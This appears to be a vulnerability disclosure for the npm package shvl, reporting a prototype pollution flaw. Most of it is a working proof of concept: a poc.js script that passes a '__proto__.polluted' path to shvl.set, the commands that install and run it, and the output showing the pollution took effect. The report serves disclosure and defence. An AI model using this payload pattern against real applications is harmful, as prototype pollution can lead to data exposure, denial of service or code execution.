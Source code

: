 # Description

`shvl` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var shvl = require("shvl")
let obj = {}
console.log("Before : " + {}.polluted);
shvl.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);

```
2. Execute the following commands in another terminal:

```
npm i shvl # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
